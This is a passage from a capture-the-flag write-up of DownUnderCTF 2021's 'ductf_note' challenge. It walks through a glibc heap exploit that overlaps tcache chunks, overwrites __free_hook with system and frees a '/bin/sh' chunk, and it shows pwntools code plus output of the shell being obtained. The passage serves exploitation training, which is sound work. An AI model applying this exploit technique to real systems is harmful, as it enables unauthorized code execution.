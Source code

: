 The chunk in unsorted bin will be used to create other smaller chunks that will overlap already existing chunks, that's why we placed two chunks in tcache bin. It will allows us to overwrite pointers from a free'd chunk and make malloc returns us an arbitrary pointer.

# Overwriting `__free_hook` with `system`

Now that we have overlapping chunks, it remains for us to allocate the right amount of data and overwrite the pointers of the free'd chunks placed in tcache bin in order to make malloc returns us an arbitrary pointer and get a write-what-where primitive.

```py
info("overwriting __free_hook with system...")
target = libc_base + libc.symbols["__free_hook"] - 8

attach_gdb()
create_note(0x2c0)
edit_note(b"A"*127 + b"B"*117 + p64(0x2d1) + p64(target) + p64(target))

create_note(0xf0)
create_note(0xf0) # addr of target
attach_gdb()
edit_note(b"JUNK" + p64(libc_base + libc.symbols["system"]))
```

With the write-what-where primitive, we overwrote `__free_hook` with `system`.

# Getting a shell

We now have to free a chunk which contains `/bin/sh` at the beginning (I used the out-of-bounds write for that).

```py
create_note(127)
edit_note(b"A"*127 + b"B"*117 + p64(0xdead) + b"/bin/sh")
delete_note()
```

The complete exploit is available here : [https://github.com/ret2school/ctf/blob/master/2021/down_under_ctf/pwn/ductf_note/exploit.py](https://github.com/ret2school/ctf/blob/master/2021/down_under_ctf/pwn/ductf_note/exploit.py)

```
[+] Opening connection to pwn-2021.duc.tf on port 31917: Done
[*] leaking libc address...
[+] libc base @ 0x7f201d1c4000
[*] leaking heap address...
[+] heap base @ 0x55e7f2322000
[*] overwriting __free_hook with system...
[*] Switching to interactive mode

$ id
uid=1000 gid=1000 groups=1000
$ ls -la
total 2204
drwxr-xr-x 1 65534 65534    4096 Sep 17 12:29 .
drwxrwxrwt 7  1000  1000     140 Sep 29 18:04 ..
-rw-r--r-- 1 65534 65534      42 Sep 17 11:24 flag.txt
-rwxr-xr-x 1 65534 65534  191472 Sep 17 11:24 ld-2.31.so
-rwxr-xr-x 1 65534 65534 2029224 Sep 17 11:24 libc.so.6
-rwxr-xr-x 1 65534 65534   21832 Sep 17 12:29 pwn
$ cat flag.txt
DUCTF{n0w_you_4r3_r34dy_f0r_r34l_m$_0d4y}
```

---
